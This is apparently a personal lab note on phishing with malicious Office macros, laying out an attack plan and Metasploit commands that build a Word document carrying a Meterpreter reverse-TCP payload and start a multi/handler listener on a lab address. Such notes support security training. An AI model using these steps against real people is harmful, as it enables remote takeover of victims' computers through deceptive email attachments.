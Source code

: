 ```yaml
---
title: He had a brain full of macros, and had shells in his soul.
draft: false
tags:
  - cybersecurity
  - phishing
---
```



Human hacking is usually the easiest to accomplish

### Macros
An automated solution to save time and reduce manual effort.
Set of programmed instructions

### Attack plan

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker's system
3. Email the document and wait for the target user to open it
4. Target user opens the document and connects the the attacker's system
5. Control the target user's system


### Creating a Malicious Document

- Open terminal and run `msfconsole`
- `set payload windows/meterpreter/reverse_tcp`
- `use exploit/multi/fileformat/office_word_macro`
- `set LHOST 10.10.211.101` listener host
- `set LPORT 8888` listener port
- `show options` check before running
- `exploit` executes 
- `exit` to return terminal

The most important part of the macro is the AutoOpen() method


### Listening for Incoming Connections

- Open `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 10.10.211.101`
- `set LPORT 8888`
- `show options`
- `exploit`